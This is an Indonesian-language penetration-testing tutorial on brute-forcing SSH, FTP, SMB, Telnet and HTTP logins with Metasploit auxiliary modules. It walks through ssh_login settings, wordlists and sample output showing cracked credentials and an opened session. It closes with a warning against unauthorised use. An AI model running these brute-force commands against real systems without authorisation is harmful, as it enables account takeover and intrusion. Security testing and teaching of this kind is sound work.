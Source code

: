 # Bruteforce Login Modul di Metasploit

Metasploit Framework memiliki banyak modul auxiliary yang mendukung bruteforce login terhadap berbagai layanan seperti `SSH`, `FTP`, `HTTP`, `SMB`, `dll`. Modul ini berguna untuk menguji kekuatan kredensial yang digunakan oleh target dan sering dipakai dalam fase credential access saat penetration testing.

## A. Modul-Modul Umum Bruteforce di Metasploit

| Layanan	| Modul Bruteforce |
|:--:|:--:|
| SSH	| `auxiliary/scanner/ssh/ssh_login` |
| FTP	| `auxiliary/scanner/ftp/ftp_login` |
| Telnet | `auxiliary/scanner/telnet/telnet_login` |
| SMB	| `auxiliary/scanner/smb/smb_login` |
| HTTP | `auxiliary/scanner/http/http_login` |

## B. Bruteforce SSH dengan `ssh_login`

Langkah-langkah:

1. Gunakan Modul:

   ```
   use auxiliary/scanner/ssh/ssh_login
   ```

2. Lihat Opsi Konfigurasi:

   ```
   show options
   ```

3. Setting Target dan Payload:

   ```
   set RHOSTS <IP TARGET>
   ser RPORT 22
   set USER_FILE /usr/share/wordlists/user.txt
   set PASS_FILE /usr/share/wordlists/rockyou.txt
   set BRUTEFORCE_SPEED  5
   set THREADS 1
   set VERBOSE true
   run
   ```

   Kalu berhasil output-nya akan sepertin ini:

   ```
   [-] 192.168.1.27:22 - Failed: 'root:'
   [-] 192.168.1.27:22 - Failed: 'debian:admin'
   [-] 192.168.1.27:22 - Failed: 'debian:root'
   [+] 192.168.1.27:22 - Success: 'debian:debian' 'uid=1000(debian) gid=1000(debian) groups=1000(debian),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),110(bluetooth)       Linux debian 6.1.0-34-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.135-1 (2025-04-25) x86_64 GNU/Linux '
   [*] SSH session 1 opened (192.168.1.42:38455 -> 192.168.1.27:22) at 2025-05-09 16:16:12 +0700
   ```

   Hasil Brute Force akan otomatis disimpan dalam database Metasploit jika aktif:

   ```
   creds
   ```

   Disini ada sesi Meterpreter yang terbuka yakni sesi dengan ID `1`, kita bisa masuk ke sesi Meterpreter-nya dengan cara:

   ```
   session -i 1
   ```

   Dan selamat kamu sudah masuk kedalam sistem terget:

   ```
   msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 1
   [*] Starting interaction with 1...

   pwd
   /home/debian
   ```

   Disini kamu bisa melakukan banyak perintah dan banyak hal.

   **Catatan Opsi Penting**

   | Opsi | Deskripsi |
   |:--:|:--:|
   | `RHOSTS` | IP target  |
   | `RPORT` | Port SSH |
   | `USERNAME` | Gunakan satu username (jika diketahui)  |
   | `PASSWORD` | Gunakan satu password (jika diketahui)  |
   | `USER_FILE` | File Wordlist yang berisi username  |
   | `PASS_FILE` | File Wordlist yang berisi password  |
   | `BRUTEFORCE_SPEED` | Kecepatan proses Brute Force |
   | `THREADS`	| Jumlah thread paralel untuk mempercepat proses  |
   | `VERBOSE` | Menampilkan output lebih detail (debugging)

## Tips Tambahan

- Gunakan wordlist yang relevan (hindari terlalu besar agar tidak lambat).
- Gunakan `services` untuk melihat layanan yang bisa ditargetkan:

  ```
  services -p 22 -u
  ```

- Bisa digabung dengan hasil `Nmap` yang sudah diimpor ke Metasploit.

> Jangan gunakan teknik  Brute Force ke sistem yang bukan milikmu atau tanpa izin.
